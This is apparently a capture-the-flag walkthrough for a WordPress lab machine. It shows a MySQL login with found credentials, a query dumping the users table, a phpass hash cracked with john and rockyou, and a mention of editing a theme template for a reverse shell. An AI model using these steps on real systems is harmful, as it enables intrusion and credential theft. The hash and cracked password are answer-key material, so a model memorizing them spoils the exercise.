 - `mysql`

* * * 

## Based on the results of #4, what is the dbms version installed on the server?

- from the nmap 5.7.33

* * * 

## Based on the results of #4, what port is the dbms running on?

- from the nmap 3306

* * * 

## Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??

- Connect to the db `mysql -h 10.10.71.47 -P 3306 -u thedarktangent -p wordpressdb2`
- `SELECT * FROM wptry_users;`
or
- `SELECT ID, user_login, user_pass FROM wptry_users WHERE ID = 1;`
- `$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1`

* * * 

## Based on the results of #7, What is the password in plaint text?

- `john corp-001.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --format=phpass`

- corp-001:teddybear

* * * 

## Compromise the machine and locate flag.txt

- with the above credentials we can access the admin's wordpress dashboard. here we can edit a template to send us a reverse shell.

![0xskar](/assets/wordpresscve202129447-03.png)

* * * 

